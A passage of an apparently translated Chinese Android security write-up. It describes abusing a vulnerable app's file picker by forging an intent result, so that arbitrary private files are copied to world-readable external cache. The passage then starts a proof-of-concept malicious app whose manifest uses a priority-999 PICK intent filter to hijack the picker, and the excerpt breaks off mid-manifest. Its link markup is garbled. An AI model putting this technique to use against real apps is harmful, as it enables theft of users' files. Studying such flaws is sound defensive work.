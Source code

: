 **它将打开一个位于 **/storage/emulated/0** 上的**外部缓存目录**(仅当您处于仿真环境中时)。如果是在真实环境中，我们可以参考这里的。文件名的输出将是以毫秒为单位的当前时间，它位于过安全 APK 的**缓存目录**中。**

**为了利用这个方法，我们将不得不**伪造一个意图**并将它们传递给 **onActivityResult()** 并从 **setResults()** 触发，以便它将我们的**任意文件**复制到**外部缓存目录**。虽然之前文件的类型被配置为图像类型，但是因为 **android:priority = "999 "，**的能力，它会覆盖它们，我们会在那里传递我们自己的意图。这是相当危险的，因为任何拥有 **READ_EXTERNAL_STORAGE** 的[权限](https://developer.android.com/guide/topics/manifest/uses-permission-element)的应用程序也能够读取它。**

**![](img/3f6a593880c029b0f2d2bc4e2738a5ce.png)**

**让我们精心制作我们的恶意应用程序。**

**应用程序的概念验证。**

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="[http://schemas.android.com/apk/res/android](http://schemas.android.com/apk/res/android)"
    package="com.evil.evlfiletheftpartone"><application
        android:allowBackup="true"
        android:icon="[@mipmap/ic_launcher](http://twitter.com/mipmap/ic_launcher)"
        android:label="[@string/app_name](http://twitter.com/string/app_name)"
        android:roundIcon="[@mipmap/ic_launcher_round](http://twitter.com/mipmap/ic_launcher_round)"
        android:supportsRtl="true"
        android:theme="[@style/Theme](http://twitter.com/style/Theme).Evlfiletheftpartone">
        <activity android:name=".thievesss" android:exported="true">
            <intent-filter android:priority="999">
                <action android:name="android.intent.action.PICK" />
                <category android:name="android.intent.category.DEFAULT" />
                <data android:mimeType="*/*" />
                <data android:mimeType="image/*" />
            </intent-filter>
        </activity>
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
```
